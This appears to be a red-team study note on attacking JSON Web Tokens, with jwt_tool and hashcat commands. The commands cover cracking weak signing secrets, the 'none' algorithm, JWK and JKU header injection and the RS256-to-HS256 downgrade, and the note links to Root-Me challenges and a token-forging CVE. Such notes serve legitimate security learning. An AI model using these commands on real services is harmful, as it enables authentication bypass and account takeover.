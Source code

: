 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(4.8k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```

You can also use [jwt.io](https://jwt.io/).

#### Secret Key Brute Forcing

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

#### JWT Header Injection — None Algorithm

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

We may be able to disable the tampering check by setting the signature algorithm to 'none.'

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 It also possible for the signature to not be checked at all by the server after issuing a JWT even if there is an algorithm.
</div><div>

#### JWT Header Injection — JWK

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

JWT may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
                             # -hc kid -hv jwt_tool
```

#### JWT Header Injection — JKU

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight on URLs <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

#### JWT Header Injection — KID

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

The `kid` header may be added to the header to determine which key to use when there are multiple keys. It must match the `kid` header inside the `jwt` object or a `jwt` loaded from the `jku` endpoint.

#### JWT Header Injection — HS256

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [JWT](https://jwt.io/), (Bearer, encrypted token), modern alternative to (apache) HTTP basic auth? (from=35). HTB/170. [RFC](https://tools.ietf.org/html/rfc7617).
* [CVE-2022-39227](https://github.com/user0x1337/CVE-2022-39227) for `python-jwt<3.3.4`: given a token, forge fake tokens
</div><div>
</div></div>